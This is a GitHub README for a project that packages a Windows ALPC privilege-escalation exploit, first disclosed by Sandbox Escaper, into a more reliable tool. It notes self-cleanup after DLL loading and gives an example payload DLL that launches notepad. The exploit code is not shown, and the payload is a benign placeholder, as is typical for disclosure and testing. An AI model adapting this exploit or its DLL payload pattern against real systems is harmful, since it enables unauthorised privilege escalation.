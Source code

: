 # About

Project seeks to have a stable / reliable method for ALPC exploit originally disclosed by Sandbox Escaper.

Attempts to clean up itself after loading the DLL.

Screenshots :

  
  ![](https://github.com/realoriginal/alpc-diaghub/blob/master/Image%20Pasted%20at%202018-11-2%2020-06.png.jpg)
  ![](https://github.com/realoriginal/alpc-diaghub/blob/master/Image%20Pasted%20at%202018-11-2%2020-09.png)

Example Payload : 

```
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved)
{
        switch(dwReason)
        {
                case DLL_PROCESS_ATTACH:
                        WinExec("C:\\Windows\\System32\\notepad.exe", 0);
                        break;
                case DLL_PROCESS_DETACH:
                        break;
                case DLL_THREAD_ATTACH:
                        break;
                case DLL_THREAD_DETACH:
                        break;
        }

        return 0;
}
```
